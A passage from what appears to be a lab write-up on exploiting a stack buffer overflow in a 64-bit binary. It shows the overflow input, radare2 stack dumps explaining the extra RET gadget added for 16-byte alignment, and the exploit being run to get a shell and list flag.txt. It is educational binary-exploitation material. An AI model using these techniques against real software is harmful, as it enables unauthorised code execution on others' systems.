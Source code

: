 hi there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBSGUUUU !!
ls
lab@lab-VirtualBox:~$ 
```
That is because the stack needs to be 16B aligned(x64 convention). Check it before and after we pad with an extra RET:
```
BEFORE
[0x55555555468a]> pxw @ rsp
0x7fffffffdfc8  0x55554753 0x00005555 0xf7b95d88 0x00007fff  SGUUUU...]......
0x7fffffffdfd8  0xf7a31420 0x00007fff 0xf7a25110 0x00007fff   ........Q......
0x7fffffffdfe8  0xf7a03c00 0x00007fff 0x00000001 0x00000000  .<..............

AFTER
[0x55555555468a]> pxw @ rsp
0x7fffffffdfc8  0x55554295 0x00005555 0x55554753 0x00005555  .BUUUU..SGUUUU..
0x7fffffffdfd8  0xf7b95d88 0x00007fff 0xf7a31420 0x00007fff  .]...... .......
0x7fffffffdfe8  0xf7a25110 0x00007fff 0x00000000 0x00000000  .Q..............

WE DO A STEP
ds
[0x555555554295]> pxw @ rsp
0x7fffffffdfd0  0x55554753 0x00005555 0xf7b95d88 0x00007fff  SGUUUU...]......
0x7fffffffdfe0  0xf7a31420 0x00007fff 0xf7a25110 0x00007fff   ........Q......
0x7fffffffdff0  0x00000000 0x00000000 0xffffe0c8 0x00007fff  ................
```
Now we are talking
```
lab@lab-VirtualBox:~$ (python3 exploit.py ; cat) | ./vuln

ls 
file1
file2
flag.txt
```
And that's it folks! Exploited.

#### References
- [ROP chains](https://d4mianwayne.github.io/2019/07/24/rop-introduction/)
- [Interesting post I consulted](https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465)
- [Stack alingment](https://stackoverflow.com/questions/672461/what-is-stack-alignment#:~:text=IIRC%2C%20stack%20alignment%20is%20when,stack%20pointer%20within%20a%20function.)
- [Megabeets tutorial on exploits with r2](https://www.megabeets.net/a-journey-into-radare-2-part-2/)








